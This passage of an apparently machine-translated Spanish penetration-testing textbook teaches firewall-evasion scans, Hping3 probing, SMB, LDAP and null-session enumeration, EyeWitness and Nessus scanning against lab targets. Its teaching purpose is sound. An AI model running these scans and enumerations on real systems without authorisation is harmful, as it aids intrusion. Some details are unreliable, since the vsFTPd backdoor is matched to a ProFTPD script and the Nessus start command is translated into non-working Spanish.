1. Utiliza el comando ``nmap -sA -p 80 <target>``:



Escaneo ACK con Nmap

1. Pudimos identificar el puerto 80 como abierto y sin filtrar (sin firewall) en el objetivo. Además, al observar los paquetes, vimos que se devolvió un paquete RST a nuestra máquina Kali Linux (atacante):


*El escaneo de puertos que se muestra en Wireshark*

Siempre que ejecuta un escaneo en un objetivo y los resultados indican filtered, esto significa que hay un firewall presente y que está monitoreando activamente el puerto, como se muestra en la siguiente captura de pantalla:



*Detectar un puerto filtrado usando Nmap*

Además, se pueden utilizar los siguientes operadores para determinar si hay un firewall presente en un sistema:

| **Operador** | **Descripción**                                              |
| ------------ | ------------------------------------------------------------ |
| -sX          | Realiza un escaneo XMAS. Los indicadores URG, FIN y PSH están todos configurados. |
| -sF          | Realiza un escaneo FIN. Solo se establece el indicador FIN.  |
| -sN          | Realiza un escaneo nulo. No se establecen indicadores.       |

*Operadores adicionales de Nmap*

Nmap interpretará las respuestas y determinará si los puertos de un objetivo están filtrados o no.

Una vez que haya completado esta sección, podrá utilizar Nmap para crear perfiles de un objetivo. En la siguiente sección, aprenderemos sobre el **motor de scripts de Nmap** (**NSE**).


## Guiones NSE

NSE es una de las funciones más potentes de Nmap. Permite a los usuarios crear y automatizar scripts para realizar análisis personalizados en un dispositivo de destino. Al realizar análisis con varios scripts de Nmap, Puedes detectar rápidamente si su objetivo es susceptible a una vulnerabilidad conocida, malware, puertas traseras abiertas, etc.

Las siguientes son las principales categorías de scripts NSE:



*Categorías de NSE*

Para ejecutar una categoría completa de scripts, podemos utilizar el comando ``--script category``. El siguiente fragmento es un ejemplo de uso de la categoría de scripts ``vuln`` durante un análisis de Nmap:



*Vulnerabilidad encontrada al usar NSE*

La ejecución de una categoría completa de scripts puede no ser siempre adecuada para diversas situaciones. Si estás realizando un análisis para buscar sistemas que contengan una vulnerabilidad específica, como **la puerta trasera vsFTPd 2.3.4 (CVE-2011-2523)**, puedes utilizar el siguiente comando:

```markup
nmap --script ftp-proftpd-backdoor target
```

Cada script NSE se almacena localmente en Kali Linux en el /usr/share/nmap/scriptsdirectorio. Sin embargo, debe familiarizarse con el uso de scripts NSE, ya que esto lo ayudará a ahorrar tiempo y encontrar información específica sobre un objetivo mucho más rápidamente. Para ayudarlo a comprender mejor los scripts NSE, visite el sitio web oficial de documentación NSE en https://nmap.org/nsedoc/ . El repositorio contiene una descripción detallada de cada script NSE disponible.

Una vez completada esta sección sobre Nmap y NSE, ahora aprendamos sobre Zenmap, la versión GUI de Nmap.


## Zenmap

Zenmap es la versión de **interfaz gráfica de usuario** (**GUI**) de Nmap y es compatible con varias plataformas, como Windows, Linux y macOS. La creación de Zenmap estuvo orientada a principiantes, ya que es más fácil de usar que la interfaz de línea de comandos tradicional de Nmap. Para descargar Zenmap en tu sistema, visita https://nmap.org/zenmap/ .

A continuación se muestra la interfaz de Zenmap. Es muy sencilla de utilizar: simplemente introduzca el objetivo y selecciona el tipo de escaneo que desea realizar. Según el tipo de escaneo que seleccione, se configurarán los operadores de Nmap necesarios en el campo de comandos.

Para demostrarlo, realicemos un escaneo rápido en nuestra VM Metasploitable observando los siguientes pasos:

1. Introduce la dirección IP de nuestro objetivo.
2. Selecciona la opción Escaneo rápido en el menú Perfil .
3. Haz clic en Escanear para comenzar, como se muestra en la siguiente captura de pantalla:



*La interfaz de Zenmap*

Una vez finalizado el análisis, haz clic en cada pestaña para obtener más detalles sobre el objetivo. Si estás realizando un análisis en una red completa, la pestaña Topología te ayudará a crear un diagrama de red de la red objetivo.

Se pueden crear perfiles de escaneo personalizados en Zenmap realizando los siguientes pasos:

1. Para crear un nuevo perfil de escaneo, haz clic en Perfil | Nuevo perfil o Comando .
2. Se abrirá el Editor de perfiles, que te proporcionará todas las opciones disponibles para escanear en Nmap, como se muestra en la siguiente captura de pantalla:



*Editor de perfiles de Zenmap*

Asegúrate de visitar cada pestaña y familiarizarte con las distintas opciones disponibles, ya que serán útiles en el futuro.

Como habrás podido comprobar, Zenmap es muy fácil de utilizar y de usar. En el siguiente apartado conoceremos Hping3, otra herramienta con la que realizar escaneos.


## Hping3

Hping3 es una herramienta de línea de comandos que permite al usuario analizar mensajes TCP/IP en una red. Además, Hping3 permite ensamblar paquetes de red, lo que puede resultar beneficioso para un evaluador de penetración a la hora de realizar el descubrimiento de dispositivos y servicios y acciones ofensivas, como un ataque **de denegación de servicio (DoS).**

Hping3 es una herramienta que puede realizar las siguientes tareas:

- Descubrimiento de host en una red
- Toma de huellas digitales de dispositivos host para determinar servicios
- Detectar el tráfico de la red
- Inundación de paquetes (DoS)
- Transferencia de archivos

Como se mencionó en la sección anterior, hay muchos servidores y dispositivos que tienen las respuestas ICMP deshabilitadas como medida de seguridad. Podemos usar Hping3 para sondear un puerto en un sistema de destino y forzar una respuesta ICMP a nuestra máquina atacante.

Para comenzar a utilizar Hping3, utilizamos los siguientes pasos para realizar un escaneo de puerto en el puerto 80:

1. Usamos la utilidad ping para enviar cuatro mensajes de solicitud de eco ICMP a nuestra máquina Windows Server (firewall habilitado e ICMP deshabilitado):



*Hacer ping a un objetivo*

1. Nuestra máquina atacante (Kali Linux) no recibió ninguna respuesta del objetivo. Un hacker novato asumiría que el objetivo está desconectado y probablemente seguiría adelante. Sin embargo, usar Hping3 para sondear un puerto específico mediante el envío de paquetes SYN obligará al objetivo a revelarse. Usando la hping3 -S target ip addr -p port -c 2 sintaxis, obtenemos las siguientes respuestas:


*Escaneo de puertos con Hping3*

Al observar nuestros resultados, podemos ver que hemos recibido respuestas correctas de nuestro objetivo. Esto significa que el 10.10.10.14 dispositivo está en línea y que el puerto 80 está abierto.

El -Soperador indica el envío de paquetes SYN, -ppermite especificar números de puerto de destino y -cespecifica la cantidad de paquetes que se enviarán.

1. Además, podemos llevar este paso un poco más allá al realizar un escaneo de puertos en un rango de puertos de red en un dispositivo de destino. Con el comando``hping3 -8 20-1000 -S 10.10.10.14``, podemos realizar un escaneo SYN en un rango de puertos desde ``20-1000`` en nuestro destino. El siguiente fragmento indica que los puertos `80`, `135`, `139`, `445`, `902` y `912` están abiertos en nuestro destino:



*Escaneo oculto con Hping3*

Hay muchos más operadores que se pueden combinar al usar Hping3; asegúrate de consultar el menú Ayuda usando el hping3 -hcomando en la Terminal.

Ahora que estás familiarizado con el uso de Hping3 como escáner, analicemos en profundidad cómo realizar una enumeración en un dispositivo de destino.


## SMB, enumeración LDAP y sesiones null

En esta sección, veremos el uso de varios protocolos de aplicación para ayudarnos a extraer datos y registros confidenciales de un sistema de destino.

## SMBmap y SMBclient

**SMBmap** es una herramienta popular y fácil de usar que se utiliza para ayudarnos a descubrir cualquier recurso compartido SMB en un dispositivo y detectar permisos en cualquier recurso compartido encontrado:

1. Usando la sintaxis ``smbmap -H target``, podemos intentar realizar un escaneo de puertos, buscando puertos que sean utilizados por el servicio SMB; en nuestro objetivo, es 445 y está abierto:



*Acciones de SMB*

1. SMBmap intentará establecer una sesión entre la máquina atacante y el objetivo en el puerto 445para enumerar todas las unidades y carpetas compartidas. En nuestro objetivo (Metasploitable), está la tmpcarpeta, que nos otorga permisos de lectura y escritura.
2. Con el smbmap -H 10.10.10.100 -r tmp comando podremos listar el contenido del directorio especificado. En nuestro ejemplo, listamos el contenido de la tmpcarpeta, como se muestra en la siguiente captura de pantalla:


*Enumeración de SMBmap*

SMBmap es una herramienta excelente para enumerar recursos compartidos SMB en dispositivos de destino; sin embargo, siempre es bueno tener otra herramienta disponible en su arsenal. Otras herramientas incluyen SMBlookup, SMBclient y Nmap.

Puedes encontrar más información sobre SMBmap en: https://tools.kali.org/information-gathering/smbmap .

**SMBclient** es otra herramienta útil y funciona de manera similar a SMBmap. Para enumerar los servicios SMB en un destino, podemos usar el smbclient -L //targetcomando:


*Enumeración de SMBclient*

SMBclient intentará extraer todos los recursos compartidos del dispositivo de destino, como se ve en la captura de pantalla anterior. Puedes encontrar más información sobre SMBclient en: https://www.samba.org/samba/docs/current/man-html/smbclient.1.html .

Al completar esta sección, habrás adquirido las habilidades necesarias para utilizar SMBmap y SMBclient para realizar la enumeración SMB en un destino. En la siguiente sección, analizaremos brevemente otra herramienta popular para la enumeración SMB: Enum4linux.

## Enum4linux

**Enum4linux** es una herramienta de enumeración capaz de detectar y extraer datos de los sistemas operativos Windows y Linux, incluidos aquellos que son hosts **Samba** (**SMB**) en una red. Enum4linux es capaz de descubrir lo siguiente:

- Políticas de contraseñas en un destino
- El sistema operativo de un objetivo remoto
- Recursos compartidos en un dispositivo (unidades y carpetas)
- Pertenencia a dominios y grupos
- Listados de usuarios

Para escanear un objetivo, utiliza el siguiente comando: ``enum4linux target``. La herramienta realizará todas las comprobaciones y enumeraciones que pueda realizar. El resultado puede resultar un poco abrumador al principio: asegúrate de comprobar los detalles con atención, ya que contendrán información significativa sobre su objetivo.

Enum4linux resulta útil en ocasiones para realizar un análisis de la red y descubrir los recursos compartidos. En la siguiente sección, analizaremos en profundidad la enumeración LDAP en una red Windows.

## Enumeración LDAP

El **protocolo ligero de acceso a directorios** (**LDAP**) se utiliza para consultar un servicio de tipo directorio o base de datos. Un ejemplo común es un entorno corporativo con un servidor **Active Directory** (**AD**) que administra las cuentas de usuario de toda la organización. Los dispositivos finales, como las computadoras de escritorio, deben consultar el servidor AD cada vez que un usuario intenta iniciar sesión en esa computadora de escritorio.

LDAP utiliza el puerto 389de forma predeterminada; sin embargo, los paquetes se envían a través de la red en texto sin formato. Además, el uso de **LDAPS** (**LDAP Secure**) garantiza que la información enviada entre un cliente y el servidor LDAP esté cifrada de forma predeterminada; LDAPS utiliza el puerto 636de forma predeterminada. Podemos utilizar Nmap para buscar dispositivos en una red que tengan puertos 389y 636estén abiertos.

Podemos utilizar una herramienta llamada JXplorer ( http://jxplorer.org ) para realizar la enumeración LDAP. Esta herramienta no está instalada de forma nativa en Kali Linux; por lo tanto, necesitaremos descargarla desde su repositorio de GitHub y ejecutarla.

Para comenzar con la enumeración LDAP, utilizamos los siguientes pasos:

1. Utiliza el siguiente comando para descargar y ejecutar la herramienta:

```markup
git clone https://github.com/pegacat/jxplorer.git
cd jxplorer
chmod +x jxplorer.sh
./jxplorer.sh

```

1. Una vez que haya ejecutado correctamente el ./jxplorer.shscript, se abrirá la interfaz de usuario. Haz clic en el ícono Conectar (ubicado debajo de Archivo ) para insertar los detalles de su destino:



*La interfaz de JXplorer*

En nuestro laboratorio, tenemos una máquina Windows Server con las siguientes configuraciones:

- Servicio de dominio de Active Directory instalado
- Servicios de directorio ligero de Active Directory instalados
- Dominio:pentestlab.local
- La cuenta de usuario creada: bob(pertenece al grupo de usuarios administradores del dominio)

Suponiendo que, al usar una herramienta de detección de paquetes como Wireshark durante una prueba de penetración, Puedes capturar las credenciales de los usuarios mientras intentan autenticarse en el servidor AD, Puedes usar estas cuentas de usuario en el campo Seguridad en la captura de pantalla anterior.

El uso de una cuenta de usuario administrador proporcionará los privilegios necesarios para extraer información en JXplorer; podrá enumerar información confidencial del servidor de Active Directory, como se muestra en la siguiente captura de pantalla:



Enumeración LDAP con JXplorer

Podrás ver todo el directorio desde la máquina del atacante y extraer información confidencial. Si el servicio solo utiliza LDAPS, esto será un desafío, ya que las credenciales del usuario estarán ocultas.

Una vez completado este ejercicio, utilizamos la herramienta **rpcclient** para realizar un ataque de sesión nula en la siguiente sección.

## Sesiones nulas

En una sesión nula, un atacante puede iniciar sesión en un objetivo utilizando una cuenta nula. Una cuenta nula es una cuenta que en realidad no existe. ¿Cómo es posible? Algunos sistemas son vulnerables a permitir el inicio de sesión anónimo. Una vez que un usuario puede iniciar sesión de forma anónima, el usuario nulo puede recuperar información confidencial almacenada en el objetivo.

Podemos intentar una enumeración de sesión nula desde nuestra máquina Kali Linux (atacante) al objetivo, Metasploitable, usando el comando `rpcclient -U "" 10.10.10.100`, como se muestra en la siguiente captura de pantalla:



*Un ataque de sesión nula*

Con el srvinfocomando, el objetivo nos devolverá su tipo de sistema operativo. Para obtener una lista completa de comandos de consulta, Puedes utilizar el rpcclient --helpcomando. Además, puedes visitar https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html .

Tenga en cuenta que no todas las máquinas son vulnerables a este tipo de ataque, pero aun así vale la pena realizarlo durante una prueba de penetración. En la siguiente sección, analizaremos la enumeración de usuarios mediante controles de autenticación ruidosos.


## Enumeración de usuarios mediante controles de autenticación ruidosos

La enumeración es la técnica mediante la cual un hacker o un evaluador de penetración intenta realizar un ataque de fuerza bruta para adivinar o confirmar usuarios válidos en un sistema de destino. Un ejemplo simple es cuando un usuario malintencionado o un evaluador de penetración realiza un ataque de adivinación de contraseñas o de fuerza bruta en un portal de correo electrónico.

El siguiente es un ejemplo de un portal de inicio de sesión típico. Las credenciales que se muestran en la siguiente captura de pantalla son un ejemplo y no son reales:



Un atacante puede intentar varias combinaciones de posibles nombres de usuario y contraseñas hasta encontrar un usuario válido. Sin embargo, estos ataques se consideran ruidosos en lugar de sigilosos (silenciosos). A modo de comparación, imagina que estás jugando a un juego de disparos en primera persona en línea y tu tarea es invadir la base enemiga y robar un trofeo sin alertar a los guardias. Si no tienes suficiente cuidado y haces ruidos fuertes, los guardias se darán cuenta y la misión fracasará. En esta analogía, los guardias son los controles de seguridad y los sensores son los cortafuegos, los sistemas IDS/IPS y la protección antimalware. Por lo tanto, esta técnica no es silenciosa en una red; sin embargo, este método aún puede permitirte acceder a un sistema, siempre que los controles de seguridad no realicen una acción de bloqueo antes de que puedas obtener acceso.

Muchas veces, cuando un usuario ingresa un nombre de usuario incorrecto en un portal de inicio de sesión, se devuelve un mensaje de error que, por lo general, indica que se ingresó un nombre de usuario incorrecto. Esto indica claramente al atacante que el nombre de usuario proporcionado no existe en la base de datos. Además, si se ingresó una contraseña incorrecta, el sistema generalmente devuelve un mensaje que indica que se ingresó una contraseña incorrecta para el nombre de usuario. Por lo tanto, desde el punto de vista de un atacante, el sistema nos está diciendo que el nombre de usuario existe en la base de datos, pero no hemos proporcionado la contraseña correcta.

Los desarrolladores web y los profesionales de seguridad ahora incluyen respuestas genéricas cuando un nombre de usuario o una contraseña son incorrectos, con un mensaje similar a este: *El nombre de usuario o la contraseña son incorrectos* . Este mensaje no indica exactamente qué valor es correcto o incorrecto.

Ahora que comprende mejor los controles de autenticación ruidosos, intentemos realizar una enumeración web en la siguiente sección.


## Huellas web y enumeración con EyeWitness

**EyeWitness** es una herramienta que permite a un evaluador de penetración capturar capturas de pantalla de un sitio web sin salir de la Terminal; la herramienta hace todo el trabajo en segundo plano. Imagine tener que crear perfiles visuales de varios sitios web, abrir servidores de **Virtual Network Computing** (**VNC**) y utilizar **protocolos de escritorio remoto** (**RDP**). Esta puede ser una tarea que requiere mucho tiempo. EyeWitness toma las capturas de pantalla, las almacena sin conexión y proporciona un informe HTML:

1. Para comenzar, deberá descargar EyeWitness desde su repositorio de GitHub usando git clone https://github.com/FortyNorthSecurity/EyeWitness.git.
2. Una vez completada la descarga, acceda al root/EyeWitness/setupdirectorio y ejecute el setup.shscript utilizando la siguiente secuencia de comandos:



Pantalla de configuración de EyeWitness

1. Una vez que se complete el proceso de configuración, use el cd ..comando para ir al directorio anterior root/EyeWitness. Para capturar una captura de pantalla de un solo sitio web, use el siguiente comando:

```markup
./EyeWitness.py --web --single example.com


```

Puedes probar esta herramienta en una de las aplicaciones web en máquinas virtuales Metasploitable o OWASP BWA.

EyeWitness le permite especificar varios protocolos utilizando operadores como: --web, --rdp, --vnc, y --all-protocols.

1. Una vez completada la tarea, EyeWitness indicará si tuvo éxito en capturar capturas de pantalla de los objetivos y le proporcionará la ubicación del informe sin conexión, como se ve en la siguiente captura de pantalla:



Asistente de informes de EyeWitness

1. Al abrir el informe HTML, la columna de la izquierda contiene información sobre la solicitud web, mientras que la columna de la derecha contiene las capturas de pantalla:



Informe de EyeWitness

Esta herramienta es muy útil para perfilar múltiples servicios y sitios web a la vez.

Puedes encontrar más información sobre EyeWitness en https://tools.kali.org/information-gathering/eyewitness .

Ahora que ha completado esta sección, Puedes realizar una enumeración web utilizando la herramienta EyeWitness.


## Módulos auxiliares de Metasploit

Metasploit es un marco de desarrollo de explotación creado por Rapid7 ( www.rapid7.com ). Metasploit contiene muchas características y funciones para pruebas de penetración. Hay muchos módulos, como exploits, payloads, codificadores y auxiliares. El módulo auxiliar contiene escáneres de puertos, rastreadores de red, fuzzers y mucho más para facilitar la fase de recopilación de información de una prueba de penetración:

1. Para acceder a la interfaz de Metasploit, abra una nueva terminal y ejecute los siguientes comandos:

```markup
service postgresql start
msfconsole

```

2. Una vez que se carga la interfaz de usuario, el show auxiliarycomando proporcionará una lista de todos los módulos auxiliares dentro de Metasploit. Usemos un ejemplo simple para demostrar cómo usar un módulo: imaginemos que desea realizar un escaneo oculto (SYN) en un objetivo. Puedes comenzar seleccionando un módulo.
3. Utiliza el use auxiliary/scanner/portscan/syncomando.
4. Verifique la descripción y los requisitos utilizando el comando `show options`.
5. Este módulo requiere que se configure un host remoto; utiliza el  comando `set RHOSTS target`.
6. Para ejecutar el módulo, utiliza el comando `run`.

7. La siguiente captura de pantalla es una demostración de un escaneo oculto en nuestra máquina Windows Server ( 10.10.10.14) y los resultados proporcionados en la parte inferior indican que se encontraron varios puertos abiertos:



8. Además, para buscar un módulo dentro de Metasploit, usar la sintaxis ``search keyword`` puede ser muy útil ya que hay muchos módulos diferentes en el marco y aprenderlos todos puede ser muy desafiante y abrumador.

En los capítulos posteriores de este libro, profundizaremos en el uso de Metasploit para realizar explotación en dispositivos objetivo en nuestro laboratorio.


## Resumen

Durante este capítulo, cubrimos varias técnicas de interrogación de DNS utilizando una variedad de herramientas para descubrir servidores importantes, subdominios y direcciones IP, y pudimos extraer con éxito los archivos de zona de un servidor DNS (transferencia de zona) debido a una configuración incorrecta en el servidor DNS del objetivo.

Luego, usamos Nmap para realizar varios tipos de escaneo de puertos para determinar el estado del puerto, los servicios en ejecución y sus versiones, y el sistema operativo del objetivo; también obtuvimos una indicación de si hay un firewall en el objetivo. Finalmente, para cerrar este capítulo, realizamos una enumeración SMB y LDAP para recopilar recursos compartidos de usuarios y registros de directorio en nuestros dispositivos de red.

Ahora que ha completado este capítulo, podrá realizar transferencias de zona DNS con éxito en servidores DNS vulnerables; crear perfiles de un sistema para descubrir su sistema operativo, servicios en ejecución y vulnerabilidades de seguridad; evadir la detección mientras realiza escaneos de red; y realizar enumeraciones de sistemas y LDAP en un objetivo. También ha adquirido las habilidades para crear perfiles visuales de varios sitios web a la vez. Espero que este capítulo le haya resultado útil en su camino hacia el aprendizaje de las pruebas de penetración.

En el Capítulo 7, *Trabajar con escáneres de vulnerabilidad*, cubriremos la importancia de utilizar escáneres de vulnerabilidad para encontrar debilidades y fallas de seguridad en un objetivo.


## Preguntas

Las siguientes son algunas preguntas basadas en los temas que hemos cubierto en este capítulo:

1. ¿Cuál es el propósito principal de utilizar DNS?
2. ¿Qué se entiende por transferencia de zona DNS?
3. ¿Qué herramienta nos permite realizar un escaneo en un sistema objetivo y determinar sus servicios en ejecución y su sistema operativo?
4. ¿Qué método se utiliza para evadir un firewall durante un escaneo?
5. ¿Qué herramienta se puede utilizar para enumerar Active Directory?


## Otras lecturas

- **Recopilación de información y evaluación de vulnerabilidades**: https://hub.packtpub.com/information-gathering-and-vulnerability-assessment-0/
- **Inteligencia de fuentes abiertas**: https://hub.packtpub.com/open-source-intelligence/
- **Reúna información y planifique estrategias de ataque**: https://hub.packtpub.com/gather-intel-and-plan-attack-strategies/


# Sección 3: Evaluación de vulnerabilidades y pruebas de penetración con Kali Linux~~2019~~ 2024

Esta sección expone al lector a varios escáneres de vulnerabilidad y su propósito y funcionalidad, así como a las pruebas de penetración, y ayuda a identificar debilidades de seguridad en un sistema o red y cómo explotarlas.

Además, los lectores adquirirán experiencia en técnicas y metodologías prácticas de pruebas de penetración mediante el uso de varias herramientas en Kali Linux~~2019~~ 2024. El lector será guiado a través de todas las etapas pertinentes, desde el descubrimiento de vulnerabilidades en un objetivo hasta la explotación de varios sistemas operativos y aplicaciones web.

Esta sección comprende los siguientes capítulos :

- Capítulo 7 : *Cómo trabajar con escáneres de vulnerabilidades*
- Capítulo 8 : *Comprensión de las pruebas de penetración en la red*
- Capítulo 9, *Pruebas de penetración de red: ataques previos a la conexión*
- Capítulo 10, *Pruebas de penetración de red: cómo obtener acceso*
- Capítulo 11, *Pruebas de penetración de red: ataques posteriores a la conexión*
- Capítulo 12, *Pruebas de penetración en la red: detección y seguridad*
- Capítulo 13, *Ataques del lado del cliente: ingeniería social*
- Capítulo 14, *Realización de pruebas de penetración en sitios web*
- Capítulo 15, *Pruebas de penetración de sitios web: cómo obtener acceso*
- Capítulo 16, *Mejores prácticas*


# Trabajar con escáneres de vulnerabilidades

El descubrimiento y análisis de vulnerabilidades de seguridad desempeñan un papel importante durante una prueba de penetración. Antes de que un evaluador de penetración o un hacker ético pueda ejecutar con éxito un exploit, debe ser capaz de identificar las debilidades de seguridad en la superficie de ataque. La superficie de ataque es el área donde un atacante puede intentar ingresar o extraer datos de un sistema. Un enfoque estratégico para identificar rápidamente las vulnerabilidades y obtener una calificación de gravedad es utilizar un escáner de vulnerabilidades conocido y de buena reputación.

Existen muchos escáneres de vulnerabilidades populares y de buena reputación en el sector, como Acunetix, OpenVAS, Qualys, Nexpose, Nikto, Retina Network Security Scanner y Nessus, por nombrar algunos. Es una buena idea tener conocimientos sobre todas estas herramientas, pero no conviene utilizarlas todas, ya que algunas de ellas son servicios comerciales y basados en suscripción.

Elegir un escáner de vulnerabilidades como su opción preferida es muy importante porque muchas veces el proveedor de un producto puede no proporcionar actualizaciones con la suficiente rapidez para detectar amenazas y debilidades dentro de un sistema, y esto puede ser crucial para usted como evaluador de penetración. Imagine ejecutar un análisis para identificar si un sistema es susceptible a un exploit en particular y la herramienta que está utilizando no contiene la actualización de firma para detectar dicha vulnerabilidad; los resultados pueden no ser fructíferos.

A lo largo de este capítulo, exploraremos el uso de Nessus como nuestro escáner de vulnerabilidades preferido.

En este capítulo, exploraremos las siguientes herramientas y temas de evaluación de vulnerabilidad:

- Nessus y sus políticas
- Escaneo con Nessus
- Exportación de resultados de Nessus
- Análisis de los resultados de Nessus
- Uso de escáneres de aplicaciones web


## Requerimientos técnicos

Los siguientes son los requisitos técnicos para este capítulo:

- Kali Linux: https://www.kali.org/
- Nessus (elementos esenciales): https://www.tenable.com/products/nessus/nessus-essentials
- Servidor WordPress: https://www.turnkeylinux.org/wordpress


## Nessus y sus políticas

Nessus es uno de los escáneres de vulnerabilidad más populares y de mayor reputación de la industria y lo utilizan muchos profesionales en el campo de la ciberseguridad. Se ha convertido en el estándar de facto de la industria para realizar evaluaciones de vulnerabilidad entre los profesionales de la ciberseguridad. Algunos de los beneficios de usar Nessus incluyen los siguientes:

- Descubrimiento de más de 45.000 **vulnerabilidades y exposiciones comunes** (**CVE**)
- Contiene más de 100.000 complementos (utilizados para descubrir vulnerabilidades)
- Actualizaciones frecuentes de nuevos complementos para vulnerabilidades recientemente reveladas
- Capaz de identificar más de 100 vulnerabilidades de día cero durante los últimos tres años

Inicia sesión en Nessus en nuestra máquina Kali Linux; primero, deberá habilitar el servicio Nessus usando el siguiente comando dentro de una ventana de Terminal:

```markup
servicio nessusd inicio

```

Una vez que el servicio se haya habilitado correctamente, abra el navegador web en Kali Linux, ingrese https://localhost:8834en la barra de direcciones y presione *Enter* . Debería ver el siguiente portal de inicio de sesión:



Inicia sesión con su cuenta de usuario, que se creó durante el proceso de configuración. Una vez que haya iniciado sesión, estará disponible el panel principal. Aquí podrá configurar y acceder a políticas y reglas de complementos, crear nuevos análisis y ver resultados. La interfaz de usuario de Nessus es muy sencilla de usar y en muy poco tiempo se familiarizará con ella.

## Políticas de Nessus

Dentro de la aplicación Nessus, existen muchas políticas existentes para diversos propósitos y con frecuencia se agregan nuevas a la base de datos. Las políticas de Nessus son los parámetros que controlan los aspectos técnicos de un análisis en un sistema de destino. Para explicarlo con más detalle, los aspectos técnicos de un análisis pueden incluir la cantidad de dispositivos host que se analizarán, los números de puerto y los servicios, el tipo de protocolo (TCP, UDP e ICMP), el tipo de escáner de puertos, etc.

Las políticas de Nessus también permiten el uso de credenciales (nombres de usuario y contraseñas) para el escaneo local en sistemas operativos basados en Windows, aplicaciones de bases de datos como plataformas Oracle y otros protocolos de capa de aplicación como FTP, POP y HTTP.

Existen políticas preinstaladas que ayudan a los profesionales de seguridad a realizar auditorías de cumplimiento en los sistemas. Un ejemplo es comprobar si una red que maneja transacciones con tarjetas de pago es vulnerable, mediante un **análisis de red PCI interno** . Esta política comprobaría si hay alguna vulnerabilidad de acuerdo con el **Estándar de seguridad de datos de la industria de tarjetas de pago** (**PCI DSS**).

Las políticas de Nessus permiten el análisis de infecciones de malware en sistemas operativos Windows comparando las sumas de comprobación hash con archivos buenos y maliciosos en un sistema de destino. Esta política es bastante útil para determinar la cantidad de hosts infectados con un tipo de malware en la red.

Para comenzar a utilizar las políticas en Nessus, asegúrate de haber iniciado sesión en Nessus. En el panel izquierdo, haz clic en **Políticas** . La siguiente captura de pantalla muestra las políticas disponibles actualmente en la edición para el hogar de Nessus. Sin embargo, si desea desbloquear los demás complementos y políticas, deberá adquirir la edición profesional:



Como se mencionó anteriormente, una política contiene configuraciones predefinidas para escanear un objetivo en busca de vulnerabilidades específicas y garantizar que un sistema cumpla con el estándar de cumplimiento. Sin embargo, como profesional de seguridad, deberá personalizar sus propias políticas de escaneo para realizar evaluaciones de vulnerabilidades en varios tipos de sistemas.


## Escaneo con Nessus

Realizar un análisis de vulnerabilidades con Nessus es bastante sencillo. En esta sección, te guiaré a través del proceso de creación de un análisis personalizado.

Para crear un nuevo escaneo, utiliza el siguiente procedimiento:

1. En la esquina superior derecha, haz clic en el botón Nuevo escaneo como se muestra en la siguiente captura de pantalla:



1. Tendrá la opción de utilizar una de las políticas predefinidas disponibles. Si desea crear un análisis personalizado para un objetivo, seleccione la política de análisis avanzado, como se muestra en la siguiente captura de pantalla:


1. Se abrirá el asistente de políticas/análisis, que le proporcionará muchas opciones para personalizar su nuevo análisis. En la pestaña General, asegúrate de insertar un nombre y una descripción, ya que ayudarán a identificar el propósito de este nuevo análisis/política; asegúrate de incluir sus objetivos:



1. Tendrá la opción de programar la frecuencia con la que se debe ejecutar el análisis o la política: una vez, a diario, semanalmente, mensualmente o anualmente. Esta función permite automatizar la ejecución periódica de análisis de vulnerabilidades en los sistemas de destino. Si decide crear un cronograma para el análisis, Puedes usar las opciones para establecer la fecha y la hora, la zona horaria y la frecuencia con la que se repetirá:



1. Si desea recibir notificaciones por correo electrónico sobre el estado de un análisis, simplemente haz clic en la pestaña Notificaciones e ingrese la dirección de correo electrónico del destinatario. Sin embargo, asegúrate de haber configurado los ajustes del servidor SMTP, que se encargará de la entrega de notificaciones por correo electrónico.
2. Para acceder a la configuración del servidor SMTP, vaya a https://localhost:8834/#/settings/smtp-server.

La pestaña Descubrimiento contiene las siguientes opciones:

- - Descubrimiento de host: proporciona opciones disponibles para descubrir dispositivos host en una red mediante el uso de métodos de ping (ARP, TCP, UDP e ICMP), descubriendo impresoras de red, hosts Novell NetWare y dispositivos de tecnología operativa.
  - Escaneo de puertos: ofrece opciones personalizables para escanear un rango de puertos o un solo puerto, realizar enumeraciones de **Secure Shell** (**SSH**), **Instrumental de administración de Windows** (**WMI**) mediante la herramienta **netstat** y **Protocolo simple de administración de redes** (**SNMP**). Realiza escaneo de red en puertos TCP y UDP y escaneo oculto.
  - Descubrimiento de servicio: permite asignar cada servicio encontrado a un número de puerto.

La pestaña Evaluación contiene las siguientes opciones:

- - **Fuerza bruta**: realiza pruebas de fuerza bruta en la base de datos de Oracle e intenta iniciar sesión en sitios web mediante Hydra.
  - **Aplicación web**: Pruebas de vulnerabilidad de aplicaciones web.
  - **Windows**: intenta enumerar cuentas de usuarios locales y de dominio.
  - **Malware**: escanea en busca de malware.

La siguiente captura de pantalla muestra las opciones descritas en la sección anterior:



1. Una vez que hayas terminado de personalizar tu política, haz clic en Guardar . La nueva política o análisis estará disponible en la carpeta Mis análisis (panel izquierdo). Para iniciar la política o el análisis recién creados, haz clic en el análisis y selecciona Iniciar .

Ahora que comprende cómo realizar un escaneo con Nessus, analicemos en profundidad los resultados que produce Nessus en la siguiente sección.


## Exportación de resultados de Nessus

Una vez que se haya completado un análisis, podemos hacer clic en él para acceder a un panel de control muy atractivo con las estadísticas. La exportación de los resultados en varios formatos, como PDF, HTML, CSV, etc., es bastante sencilla. La exportación de los resultados le permitirá guardar el informe sin conexión. Esto será beneficioso para los evaluadores de penetración, ya sea para revisar los detalles de la evaluación de vulnerabilidades en un momento posterior o para proporcionar el informe a las personas involucradas (clientes o miembros del equipo).

Para exportar los resultados de un análisis de Nessus, siga estos pasos:

1. Abra el escaneo y haz clic en Exportar :



1. Tendrá la opción de seleccionar el formato de salida. Luego, el asistente de exportación le brindará otra opción para generar el resultado final como un resumen ejecutivo o personalizar un informe según sus preferencias personales:



1. Si decide crear un informe personalizado, están disponibles las siguientes opciones:



El informe ejecutivo es más adecuado para el personal de alta dirección que no se preocupa por todos los detalles técnicos de la evaluación de vulnerabilidades, sino más bien por la descripción general del informe. El informe personalizado se puede utilizar para incluir o eliminar detalles específicos, según lo que se requiera y el interés del lector.

A continuación se muestra una muestra del informe ejecutivo generado para un análisis de vulnerabilidad en la máquina virtual Metasploitable dentro de nuestro laboratorio:



Como puedes ver, a cada vulnerabilidad encontrada en el objetivo se le asigna una calificación de gravedad y una puntuación. El **Common Vulnerability Scoring System** (**CVSS**) es un sistema de puntuación de vulnerabilidades cuantitativo que ayuda a los profesionales de seguridad a determinar la gravedad de una amenaza, un exploit o incluso una debilidad de seguridad.

